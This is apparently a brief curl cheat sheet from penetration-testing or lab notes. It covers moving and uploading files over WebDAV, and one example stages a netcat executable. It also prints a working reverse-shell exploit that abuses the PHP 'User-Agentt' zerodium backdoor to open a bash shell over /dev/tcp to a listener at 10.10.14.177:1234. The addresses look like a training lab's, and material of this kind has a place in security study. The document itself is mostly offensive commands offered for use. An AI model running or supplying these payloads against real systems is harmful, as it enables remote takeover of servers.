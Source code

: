 Move a file with curl:
```
curl -X MOVE --header "Destination:http://10.10.10.15/nc.exe" http://10.10.10.15/nc.txt
```

Upload a file with curl:
```
curl http://10.10.10.15/ --upload-file shell.txt
```
sends a reverse shell.
```
curl http://10.10.10.242/index.php -H "User-Agentt: zerodiumsystem(\"bash -c 'bash -i
&>/dev/tcp/10.10.14.177/1234 0>&1 '\");"
```

Get an Http header:
```
curl -I <http://ip-address/
```
